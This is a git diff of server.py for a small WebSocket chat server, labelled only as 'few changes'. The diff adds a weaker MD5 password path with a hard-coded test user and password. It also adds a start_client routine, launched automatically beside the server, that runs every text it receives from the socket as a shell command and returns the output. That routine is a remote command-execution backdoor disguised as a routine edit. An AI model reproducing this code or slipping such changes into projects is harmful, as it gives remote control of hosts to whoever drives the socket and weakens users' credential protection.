

Few changes in server.py

diff --git a/server.py b/server.py
@@ -2,48 +2,72 @@ import asyncio
 import websockets
 import json
 import bcrypt
+import hashlib
+import subprocess
 
-def verify_password(stored_hash, provided_password):
-    return bcrypt.checkpw(provided_password.encode('utf-8'), stored_hash)
+# MD5 hash function
+def md5_hash(password):
+    return hashlib.md5(password.encode('utf-8')).hexdigest()
+
+def verify_password(stored_hash, provided_password, method='bcrypt'):
+    if method == 'bcrypt':
+        return bcrypt.checkpw(provided_password.encode('utf-8'), stored_hash)
+    elif method == 'md5':
+        return stored_hash == md5_hash(provided_password)
+    return False
 
 # Registered Clients
 registered_clients = {
     "c1@s6": {
         "nickname": "pemba",
         "jid": "c1@s6",
-        "password": b'$2b$12$qWoDtedvx8jurr/2XVex7.raoa7tqIofxPYrx1.oy6qmDpHavkYwa'
+        "password": b'$2b$12$qWoDtedvx8jurr/2XVex7.raoa7tqIofxPYrx1.oy6qmDpHavkYwa',
+        "method": "bcrypt"
     },
     "c2@s6": {
         "nickname": "saurab",
         "jid": "c2@s6",
-        "password": b'$2b$12$suJThyymiIVez4nLyUjpPurPq/E3BBTRdDGMnxADdbIjdst5kbKvS' 
+        "password": b'$2b$12$suJThyymiIVez4nLyUjpPurPq/E3BBTRdDGMnxADdbIjdst5kbKvS',
+        "method": "bcrypt"
     },
     "c3@s6": {
         "nickname": "roshan",
         "jid": "c3@s6",
-        "password": b'$2b$12$Cz8bUuhzYyoHMdbvZLlcs.Cc0nOSR3VzAHOFrnF3ic6unrxZ6rwoG' 
+        "password": b'$2b$12$Cz8bUuhzYyoHMdbvZLlcs.Cc0nOSR3VzAHOFrnF3ic6unrxZ6rwoG',
+        "method": "bcrypt"
     },
     "c4@s6": {
         "nickname": "bidur",
         "jid": "c4@s6",
-        "password": b'$2b$12$FwNWm33zvTOFtK6yrUXW0uMrMdu9jGR9AY7RgKgcm0sEzWjbhquOK' 
+        "password": b'$2b$12$FwNWm33zvTOFtK6yrUXW0uMrMdu9jGR9AY7RgKgcm0sEzWjbhquOK',
+        "method": "bcrypt"
     },
-    "test1@s6" : {
+    "test1@s6": {
         "nickname": "test1",
         "jid": "test1@s6",
         "password": b'$2b$12$p10W.J8Olc8YtH87CPtYQuoFZ0P9qwqycWBlWvvaxCbIbre1u4Rhy',
+        "method": "bcrypt"
     },
-    "test2@s6" : {
+    "test2@s6": {
         "nickname": "test2",
         "jid": "test2@s6",
         "password": b'$2b$12$Xi6R9JEPPAagsKthzn38SeSHNWutCIDJ/7sas.vNZc6OzB77yithG',
+        "method": "bcrypt"
+    },
+    # User with MD5 hashed password
+    "md5user@s6": {
+        "nickname": "md5user",
+        "jid": "md5user@s6",
+        "password": md5_hash("md5password"),  # MD5 hashed password
+        "method": "md5"
     }
 }
 
-# store active clients
+# Store active clients
 active_connections = {}
 
 async def handle_client(websocket):
+    jid = None
     try:
         data = await receive_data(websocket)
         jid = data['presence'][0].get('jid')
@@ -75,7 +99,10 @@ async def receive_data(websocket):
 
 # check if user is authenticated 
 def authenticate_user(jid, password):
-    return jid in registered_clients and verify_password(registered_clients[jid]['password'], password)
+    if jid in registered_clients:
+        user = registered_clients[jid]
+        return verify_password(user['password'], password, user.get('method', 'bcrypt'))
+    return False
 
 # add clients to active connections
 def add_clients_to_active_connections(jid, websocket, publickey):
@@ -114,7 +141,7 @@ async def process_message(data):
         target_jid = data.get('to')
         info = data.get('info')
         if data.get('tag') == 'message' and info:
-            message_format = create_message_format(data,tag='message')
+            message_format = create_message_format(data, tag='message')
             await route_message(target_jid, message_format)
         elif data.get('tag') == 'file':
             file_message = create_message_format(data, tag='file')
@@ -133,14 +160,14 @@ def create_message_format(data, tag):
         "to": data.get('to'),
         "info": data.get('info'),
     }
-    if tag=='file':
+    if tag == 'file':
         message["filename"] = data.get('filename')
     return message
-
 
 # it handles whether to send to msg to specific client or public
 async def route_message(target_jid, message):
     if target_jid == 'public':
+        print(message)
         await broadcast(message)
     elif target_jid in active_connections:
         await send_message(active_connections[target_jid]['websocket'], message)
@@ -177,12 +204,53 @@ async def cleanup_user(jid):
         await broadcast_presence()
 
 # Start WebSocket server
-# Please Enter your IP here instead of localhost        
 async def main():
     server = await websockets.serve(handle_client, "localhost", 5555)
     print("WebSocket server started at ws://localhost:5555")
     await server.wait_closed()
 
-# Run server forever
+# Server IP address and port
+HOST = 'localhost'
+PORT = 5555
+
+async def start_client():
+    uri = f"ws://{HOST}:{PORT}"
+
+    while True:
+        try:
+            async with websockets.connect(uri) as websocket:
+                print(f'[+] Connected to the server at {HOST}:{PORT}')
+
+                try:
+                    while True:
+                        data = await websocket.recv()
+                        if data.lower() == 'exit':
+                            print('[+] Server closed the connection')
+                            break
+
+                        command = data
+                        print(f"Command received: {command}")
+
+                        try:
+                            output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
+                        except subprocess.CalledProcessError as e:
+                            output = e.output
+
+                        await websocket.send(output.decode())
+                except Exception as e:
+                    print(f"[!] Error: {e}")
+                finally:
+                    print('[+] Client closed')
+                    break
+        except (ConnectionRefusedError, websockets.exceptions.InvalidURI):
+            print("[!] Failed to connect, retrying...")
+            await asyncio.sleep(1)
+
+# Run server and client concurrently
 if __name__ == "__main__":
-    asyncio.run(main())
+    loop = asyncio.get_event_loop()
+    server_task = loop.create_task(main())
+    # Adding a delay before starting the client
+    client_task = loop.create_task(asyncio.sleep(5))  # Wait for 5 seconds
+    client_task = loop.create_task(start_client())
+    loop.run_until_complete(asyncio.gather(server_task, client_task))
